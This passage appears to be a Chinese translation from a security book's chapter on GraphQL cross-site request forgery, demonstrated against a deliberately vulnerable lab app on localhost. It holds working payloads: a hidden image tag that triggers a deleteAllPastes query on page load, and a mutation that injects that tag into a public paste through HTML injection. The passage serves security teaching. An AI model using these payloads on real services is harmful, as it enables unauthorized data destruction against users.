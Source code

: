 要测试此攻击，将文件 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/get_csrf_submit_auto.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/get_csrf_submit_auto.html) 保存到桌面作为 HTML 文件。确保 Burp Suite 正在拦截流量，然后将 HTML 文件拖放到浏览器窗口中。你应该能在两秒钟后看到发送的外发 HTTP GET 请求：

```
GET /graphql?query=**query+%7B+deleteAllPastes+%7D** HTTP/1.1
Host: localhost:5013
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
`--snip--`
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

我们可以利用 CSRF 来伪造一个删除所有粘贴内容的 GET 查询。现在让我们尝试使用 HTML 标签（例如 `<a>` 和 `<img>`）来触发基于 GET 的 CSRF 攻击。做到这一点的一种方法是创建一个 HTML 页面，通过 `<img>` 标签执行 GET 请求，就像列表 9-5 中的示例一样。

```
<html>
<body>
  <h1>GET-based CSRF using an image tag</h1>
  <img src="http://localhost:5013/graphql?query={deleteAllPastes}" style="display: none;" />
</body>
</html>
```

列表 9-5：使用图片标签的 GET 基于 CSRF 攻击

将此保存为 HTML 文件。如前所述，页面加载后它将立即执行，因为浏览器会尝试获取 `src` 属性中定义的 URL，并发送 GraphQL 查询。

### 使用 HTML 注入

我们可以通过滥用另一种漏洞来利用基于 GET 的 CSRF 攻击，例如*HTML 注入*，它允许攻击者将 HTML 标签注入网页中。如果受害者访问该网站，他们的浏览器将渲染这些 HTML 代码。特别是，如果攻击者能够使用 `<a>` 标签注入超链接或使用 `<img>` 标签注入图片链接，客户端在访问页面时会发起 GET 请求，遵循标签的默认行为。

我们能否通过 HTML 注入在 DVGA 上触发 CSRF 攻击？让我们来看看。打开 Firefox，导航到 ***http://localhost:5013***，并转到 **Public Pastes** 页面。接着，打开开发者工具（CTRL-SHIFT-I），并转到 **Network** 标签。确保 Altair 指向 *http://localhost:5013/graphql*，然后输入 列表 9-6 中的突变代码，这将创建一个带有 CSRF 有效负载的粘贴内容。

```
mutation {
  createPaste(content:"<img src=\"http://localhost:5013/graphql?query= {
deleteAllPastes }\" </img>", title:"CSRF using image tags", public: true,
burn: false) {
    paste {
      id
      content
 }
  }
}
```

列表 9-6：创建包含 CSRF 有效负载的粘贴内容

此请求将包含 `deleteAllPastes` 查询的 `<img>` 标签注入到公共粘贴页面中。为了做到这一点，它依赖于 DVGA 通过使用 GraphQL 订阅（以 WebSocket 作为传输协议）来获取粘贴数据的事实。你的浏览器订阅了新的粘贴创建事件，因此每当创建新粘贴时，订阅会自动将其标题、内容和其他信息填充到页面中。通过将我们的有效负载放入 `createPaste` 的 `content` 字段，我们有效地将其嵌入到页面中。
